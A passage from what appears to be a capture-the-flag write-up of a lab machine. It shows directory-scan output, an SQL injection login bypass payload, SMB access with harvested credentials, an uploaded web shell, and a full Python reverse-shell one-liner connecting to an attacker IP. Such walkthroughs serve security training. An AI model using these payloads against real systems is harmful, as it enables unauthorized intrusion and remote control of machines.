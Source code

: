                         [Status: 200, Size: 11162, Words: 2014, Lines: 126, Duration: 165ms]
login                   [Status: 200, Size: 1605, Words: 352, Lines: 29, Duration: 181ms]
Login                   [Status: 200, Size: 1605, Words: 352, Lines: 29, Duration: 215ms]
static                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 163ms]
:: Progress: [18456/18456] :: Job [1/1] :: 223 req/sec :: Duration: [0:03:18] :: Errors: 0 ::
```

let's check out the /login directory

![image](https://user-images.githubusercontent.com/87468669/201513607-10edca58-3805-49ca-b7f2-b5bca4e187d9.png)

we have a login page, let's try bypass the login page using payload `admin"or 1=1 or ""="` was able to bypass the login page 

![image](https://user-images.githubusercontent.com/87468669/201513678-9f2e69d9-6f5e-4ad7-8825-f0286d940b59.png)

we logged in and we got some creds... Let's enumerate smb services 

![image](https://user-images.githubusercontent.com/87468669/201513733-9efa0040-b8ca-437d-af2f-d13ea12e0729.png)

we have a share name SECURED, let's try login with the creds we found earlier 

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/THM/Warrior]
└─$ smbclient  //10.10.37.149/SECURED -U ArthurMorgan
Password for [WORKGROUP\ArthurMorgan]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Nov 13 09:55:21 2022
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021

                7743660 blocks of size 1024. 4474300 blocks available

```

we can see the note.txt file there, it is the same content found in /dev directory in the web service. let's try upload a shell in the smb server 

![image](https://user-images.githubusercontent.com/87468669/201513973-440208f4-3671-4d3c-9a1b-b1a6c690670d.png)

we can upload a rce shell in the smb share, let's check it in the /dev directory on the web service 

![image](https://user-images.githubusercontent.com/87468669/201514044-2a71425c-572f-4cbb-a854-4a2d6238a778.png)

we got an rce, let's get a reverse shell. 
reverse shell payload ready 

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.0.73",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

ncat listener ready

![image](https://user-images.githubusercontent.com/87468669/201514114-e0499ee1-3ea9-4eaf-a4e7-82db228d89eb.png)

```